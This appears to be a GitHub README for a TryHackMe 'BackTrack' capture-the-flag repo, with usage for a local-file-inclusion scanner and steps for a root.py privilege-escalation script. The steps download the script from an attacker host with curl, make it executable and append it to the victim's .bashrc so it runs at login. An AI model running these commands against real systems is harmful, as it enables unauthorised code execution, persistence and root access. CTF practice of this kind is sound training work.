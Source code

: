 # BackTrack--THM
LFI automation script - TryHackMe challenge BackTrack

# Usage LFI - scanner >>

```
git clone https://github.com/TheSysRat/BackTrack--THM

cd BackTrack--THM

python LFI.py -l <IP_ADDRESS> -p <PORT> -w <DICTIONARY_FILE> -o <OUTPUT_LOG_FILE>

```
# root.py script for get SUID bash using SIGSTOP root process >>

```
Download file:

curl http://<IP>:<Port>/root.py -o /home/orville/root.py

Update permisions:

chmod +x /home/orville/root.py

Add file to config file /home/orville/.bashcr  :

echo "python3 /home/orville/root.py" >>  /home/orville/.bashrc

```

